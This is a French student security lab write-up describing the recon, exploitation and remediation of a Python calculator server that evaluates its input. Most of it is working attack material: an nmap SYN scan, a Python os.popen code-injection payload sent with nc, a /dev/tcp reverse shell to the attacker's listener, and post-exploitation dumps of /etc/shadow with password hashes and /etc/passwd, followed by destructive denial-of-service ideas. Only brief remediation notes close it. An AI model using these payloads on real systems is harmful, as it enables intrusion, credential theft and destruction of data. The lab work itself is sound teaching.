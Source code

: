 # TP5 SECU : Exploit, pwn, fix
## 1. Reconnaissance
**🌞 Déterminer :**
IP : 10.1.1.2
Port : 13337
Wireshark ou un décompileur
**🌞 Scanner le réseau :**
```
nanouche@Ubuntu:~$ sudo nmap -p 13337 --scanflags SYN -sS 10.33.64.0/20 -oN scan
```
Résultat dans le dossier [scan](./scan)
[tp5_nmap.pcapng](./capture/tp5_nmap.pcapng)
**🌞 Connectez-vous au serveur :**
```
nanouche@Ubuntu:~$ sudo python3 client.py 
Veuillez saisir une opération arithmétique : 1+1
'2'
```
L'application est une calculatrice
## 2. Exploit
**🌞 Injecter du code serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("ls").read()
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
## 3. Reverse shell
**🌞 Obtenez un reverse shell sur le serveur :**
```
nanouche@Ubuntu:~$ nc 10.33.72.148 13337
__import__('os').popen("sh -i >& /dev/tcp/10.33.72.147/9999 0>&1").read()

nanouche@Ubuntu:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.33.72.148 49297
sh: cannot set terminal process group (11456): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```
**🌞 Pwn :**
```
sh-5.1# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:e4:0d:99 brd ff:ff:ff:ff:ff:ff
    inet 10.1.1.10/24 brd 10.1.1.255 scope global noprefixroute enp0s3
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fee4:d99/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:a0:7b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.15/24 brd 10.0.3.255 scope global dynamic noprefixroute enp0s8
       valid_lft 80092sec preferred_lft 80092sec
    inet6 fe80::a00:27ff:fea0:7b1f/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

sh-5.1# cat etc/shadow
cat etc/shadow
root:$6$zEk1UBcRHlrijLhs$/1dzLO/IL.CSZuDFqhGsfwqMWLqcEqANgi/zoptiNyztK3PKX4uX.TBRaoaZ120sTVCT7awPUUF3s62Hs2yfN.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
hugo:$6$Y5.0u9zww/X1I33x$PZxU8Ghsb7UOgEpRgjWERYj/Un58bEOig3MYF90y5fo9H.X5sZ6qluhSKqxekAPkwMU6sxw3fn.Z1TZ2bVrdF/::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20014::::::

sh-5.1# cat etc/passwd
cat etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
netdata:x:991:991:NetData User:/var/log/netdata:/sbin/nologin

sh-5.1# cat home/hugo/client.py
cat home/hugo/client.py
#!/usr/bin/python3.9

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
s.send('Hello'.encode())

# On reçoit la string Hello
data = s.recv(1024)

# Récupération d'une string utilisateur
msg = input("Calcul à envoyer: ")

# On envoie
s.send(msg.encode())

# Réception et affichage du résultat
s_data = s.recv(1024)
print(s_data.decode())
s.close()

sh-5.1# cat home/hugo/portcheck.conf
cat home/hugo/portcheck.conf
jobs:
  - name: calculatrice
    host: 127.0.0.1
    ports:
      - 9999
```
## 4. Bonus : DOS
**⭐ BONUS : DOS l'application :**  
- Sur le firewall fermer le port 9999.
- Désinstaller Python de la machine.
- Supprimer le dossier home/hugo ou est stocké le .py et le .conf.
- time sleep la machine.
- Shutdown la machine.
# II. Remédiation
**🌞 Proposer une remédiation dév :**
- Valider et uniquement autoriser des entrées de int ou de +-*/.

**🌞 Proposer une remédiation système :**
- Limiter les permissions de l'application et définir un user avec les permissions les plus petites possibles pour juste faire sa tache et rien d'autre.
- Isoler l'application dans un conteneur Docker.